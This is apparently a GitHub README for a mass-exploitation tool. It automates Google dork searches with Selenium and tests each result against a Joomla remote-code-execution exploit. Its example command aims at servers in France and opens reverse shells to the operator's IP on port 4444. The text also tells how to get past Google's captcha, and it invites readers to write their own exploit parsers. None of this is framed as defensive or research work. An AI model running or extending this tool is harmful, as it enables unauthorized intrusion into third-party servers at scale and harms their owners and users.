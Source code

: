 [+] Google Mass Explorer
This is a automated robot for google search engine.

Make a google search, and parse the results for a especific exploit you define.
The options can be listed with --help parameter.

Intro:
This project is a main project that i will keep upgrading when new exploits are published. They idea is use google search engine to find vulnerable targets, for specific exploits. The exploits parsers will be concentrated in google_parsers module. So when you make a search, you can choose explicit in "--exploit parser" argument, a especific exploit to the robot test if is the targets are vulnerable for that or not.
*** Is very important you use the right dork for the specific exploit.

The google parsers module (google_parsers.py) is the file that i will keep upgrading. For this version i'm putting just the joomla cve exploit. I have a wordpress bot too, but the ideia is you make your own parsers =))) If you have difficul to make, just send me the exploit and we make together =))

I make this google explorer because i'm very busy, and take to much time to search for targets in google manually. So I use a automated framework (Selenium) to make a robot to search for targets for me ;)) The problem using other libs and modules, is the captcha from google, and using Selenium, you can type the captcha when it is displayed, and the robots keeps crawling with no problem =)) This was the only way i find out to "bypass" this kind of protection... After it work, i decide to publish to everyone.

Basictly, how the robot works:
1 - Make a google search
2 - Parse the from each page results
3 - Test if each target is vulnerable for a specific exploit.

Requiriments:
-----> !!!!!! PYTHON 3  !!!!!! <------ THIS PROJECT IS ONLY FOR PYTHON 3 !!!!!!! 
The requirements is in requirements.txt file, you should install what is listed on it with: 
$ sudo pip install -R requirements.txt

These are some exemples that you can use, and make your own:

python3 google_explorer.py --dork="site:*.com inurl:index.php?option=" --browser="chrome" --exploit_parser="joomla_15_12_2015_rce" --revshell="MY_PUBLIC_IP" --port=4444 --google_domain="google.com" --location="França" --last_update="no último mês"

On this exemple, im looking for servers in France, vulnerables to joomla RCE, using google.com domain as google search (they are listed in google_doomais.txt file), with last update on last month.

All these options are possible to any language, it will depends only in what google use for syntax for your country..

I have some old videos on my channel on youtube showing how it works, so take a look at the description of the olders projects in github if you need some video exemples ;))










